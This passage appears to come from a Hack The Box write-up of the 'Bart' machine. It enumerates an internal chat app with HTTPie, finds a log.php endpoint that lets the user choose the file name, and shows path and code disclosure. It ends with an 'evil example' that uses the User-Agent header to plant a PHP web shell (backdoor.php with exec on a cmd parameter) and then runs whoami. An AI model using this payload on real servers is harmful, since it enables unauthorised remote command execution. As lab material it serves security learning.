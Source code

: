 #### 4.1. Actual login form page
```
# http -b http://internal-01.bart.htb/simple_chat/login_form.php | grep action
<form action="login.php" method="POST">
# http http://internal-01.bart.htb/simple_chat/register.php
```


#### 4.2. Create user and login
```
# http -f POST http://internal-01.bart.htb/simple_chat/register.php uname=trolololz passwd=trolololz
```


#### 4.3. Interesting functionality
```
# http -f POST http://internal-01.bart.htb/simple_chat/login.php uname=trolololz passwd=trolololz --follow | grep '/log/'
					xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
```
Note: log file parameter controllable by user


#### 4.4. Contents of `log.txt`
```
# http http://internal-01.bart.htb/log/log.txt -b
[2018-02-21 22:35:17] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
```
Note: log file contains `User-Agent` details and `username`


#### 4.5. Full path disclosure
```
# http -b internal-01.bart.htb/log/log.php
<br />
<b>Notice</b>:  Undefined index: filename in <b>C:\inetpub\wwwroot\internal-01\log\log.php</b> on line <b>19</b><br />
<br />
<b>Notice</b>:  Undefined index: username in <b>C:\inetpub\wwwroot\internal-01\log\log.php</b> on line <b>20</b><br />
0
```

#### 4.6. PHP code disclosure
```
# http -b "http://internal-01.bart.htb/log/log.php?filename[]=log.txt&username=harvey"
<br />
<b>Warning</b>:  file_put_contents() expects parameter 1 to be a valid path, array given in <b>C:\inetpub\wwwroot\internal-01\log\log.php</b> on line <b>41</b><br />
1
```


#### 4.7. Potentially vulnerable PHP code & exploitation
```
<?php
$file = $_GET['filename'];
$data = $_SERVER['HTTP_USER_AGENT'];
// $data = $_GET['username'];
echo file_put_contents($file, $data);

# harmless example
// # http -b 172.16.201.160?filename=test.txt
// 12
// # http -b 172.16.201.160/test.txt
// HTTPie/0.9.8

# evil example
// # php='<?php echo exec($_GET["cmd"]);'
// # http -b 172.16.201.160?filename=backdoor.php User-Agent:"$php"
// 30
// # http -b 172.16.201.160/backdoor.php?cmd=whoami
// www-data
```
Note: attacker controls file type and content via `User-Agent` request header
